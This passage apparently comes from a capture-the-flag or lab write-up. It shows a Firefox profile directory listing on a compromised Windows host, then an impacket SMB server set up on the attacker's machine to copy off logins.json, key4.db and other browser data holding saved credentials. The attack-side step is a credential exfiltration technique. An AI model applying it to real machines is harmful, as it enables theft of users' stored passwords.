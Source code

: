 ```
d-----         6/26/2021  10:32 PM                saved-telemetry-pings
d-----         6/26/2021  10:22 PM                security_state
d-----         6/26/2021  10:32 PM                sessionstore-backups
d-----         6/26/2021  10:17 PM                storage
-a----         6/26/2021  10:29 PM             24 addons.json
-a----         6/26/2021  10:29 PM           4199 addonStartup.json.lz4
-a----         6/26/2021  10:22 PM            858 AlternateServices.txt
-a----         6/26/2021  10:22 PM            216 broadcast-listeners.json
-a----         6/26/2021  10:22 PM         229376 cert9.db
-a----         6/26/2021  10:32 PM             85 cert_override.txt
-a----         6/26/2021  10:17 PM            199 compatibility.ini
-a----         6/26/2021  10:17 PM            939 containers.json
-a----         6/26/2021  10:17 PM         229376 content-prefs.sqlite
-a----         6/26/2021  10:17 PM          98304 cookies.sqlite
-a----         6/26/2021  10:29 PM           1123 extension-preferences.json
-a----         6/26/2021  10:31 PM          38223 extensions.json
-a----         6/26/2021  10:32 PM        5242880 favicons.sqlite
-a----         6/26/2021  10:17 PM         262144 formhistory.sqlite
-a----         6/26/2021  10:17 PM            683 handlers.json
-a----         6/26/2021  10:20 PM         294912 key4.db
-a----         6/26/2021  10:21 PM            674 logins.json
-a----         6/26/2021  10:17 PM              0 parent.lock
-a----         6/26/2021  10:32 PM          98304 permissions.sqlite
-a----         6/26/2021  10:17 PM            505 pkcs11.txt
-a----         6/26/2021  10:32 PM        5242880 places.sqlite
-a----         6/26/2021  10:32 PM          11512 prefs.js
-a----         6/26/2021  10:17 PM            180 search.json.mozlz4
-a----         6/26/2021  10:32 PM            288 sessionCheckpoints.json
-a----         6/26/2021  10:32 PM           2566 sessionstore.jsonlz4
-a----         6/26/2021  10:17 PM             18 shield-preference-experiments.json
-a----         6/26/2021  10:32 PM            730 SiteSecurityServiceState.txt
-a----         6/26/2021  10:32 PM           4096 storage.sqlite
-a----         6/26/2021  10:17 PM             50 times.json
-a----         6/26/2021  10:32 PM          98304 webappsstore.sqlite
-a----         6/26/2021  10:32 PM            220 xulstore.json
```

To transfer the files we stand up a smb server with impacket and copy `logins.json`, `key4.db`, `storage.sqlite` and `places.sqlite` to our machine.

```
$ sudo smbserver.py -smb2support files . -username sm1l3z -password '$V#(NM&cfm#M(a'
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
